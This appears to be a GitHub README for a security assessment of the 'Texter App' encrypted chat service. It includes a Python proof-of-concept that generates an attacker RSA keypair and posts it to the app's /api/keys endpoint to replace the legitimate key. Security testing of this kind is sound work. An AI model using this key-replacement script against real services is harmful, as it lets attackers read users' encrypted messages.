 # Security Assessment of Texter App

This repository contains the analysis and demonstration of security vulnerabilities in the **Texter App**, a secure chat application. The focus of this report is to identify key security issues, evaluate existing vulnerabilities, and propose best practices to mitigate potential threats. This repository includes a Python script that demonstrates a **Malicious Key Exchange** attack.

## Project Overview

The **Texter App** is designed for encrypted messaging using RSA and AES encryption algorithms. The app uses GitHub OAuth for authentication. However, like many applications, it may have several security weaknesses, which could be exploited by attackers to compromise user data. The vulnerabilities analyzed include issues related to:

- Key management and encryption weaknesses
- Authentication and authorisation vulnerabilities
- Server-side security issues

## Key Features

- **Malicious Key Exchanger Script**: A Python script that demonstrates how an attacker can replace the legitimate RSA public key with a malicious one, compromising encrypted communication.
- **Security Analysis**: A comprehensive review of the security practices and identified vulnerabilities in the Texter App.

## Attack: Malicious Key Exchanger

The script included in this repository simulates a **key replacement attack**, which targets weaknesses in the key exchange process. This attack allows an attacker to replace the legitimate RSA key with their own malicious key, potentially allowing them to intercept encrypted messages.

### How it Works

1. **RSA Key Generation**: The attacker generates their own RSA key pair (private and public keys).
2. **Key Serialization**: The public key is serialized to PEM format for transmission.
3. **Key Replacement**: The attacker's public key is sent to the target API endpoint, replacing the legitimate key.
4. **Execution and Validation**: The script sends the malicious key to the server and checks whether the attack was successful.

### Python Code Example

```python
import requests
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization

# Class MaliciousKey Exchanger
class MaliciousKeyExchanger:
    def __init__(self):
        self.compromised_keys = {}

    # Create RSA key Pair for malicious purpose
    def create_attack_keypair(self):
        attacker_private_key = rsa.generate_private_key(
            public_exponent=65537,
            key_size=2048
        )
        attacker_public_key = attacker_private_key.public_key()
        return attacker_private_key, attacker_public_key

    # Converts RSA public key to PEM format
    def serialize_public_key(self, public_key):
        return public_key.public_bytes(
            encoding=serialization.Encoding.PEM,
            format=serialization.PublicFormat.SubjectPublicKeyInfo
        )

    # Execute attack by replacing legitimate key
    def execute_key_replacement(self, endpoint_url):
        attacker_private_key, attacker_public_key = self.create_attack_keypair()

        # Convert the attacker's public key to a format suitable for transmission
        pem_public_key = self.serialize_public_key(attacker_public_key)

        # Craft the payload and send the request
        encoded_key = base64.b64encode(pem_public_key).decode()
        payload = {"key": encoded_key}
        headers = {"Content-Type": "application/json"}

        # Exception Handling if Successful or Failed to execute this attack
        try:
            response = requests.post(
                url=f"{endpoint_url}/api/keys",
                json=payload,
                headers=headers
            )
            return response.status_code == 200
        except requests.RequestException as error:
            print(f"Error during key exchange interception: {error}")
            return False

# Usage example (for demonstration purposes only):
if __name__ == "__main__":
    attacker = MaliciousKeyExchanger()
    target_api = "http://example.com"

    if attacker.execute_key_replacement(target_api):
        print("Key exchange attack executed successfully.")
    else:
        print("Key exchange attack failed.")
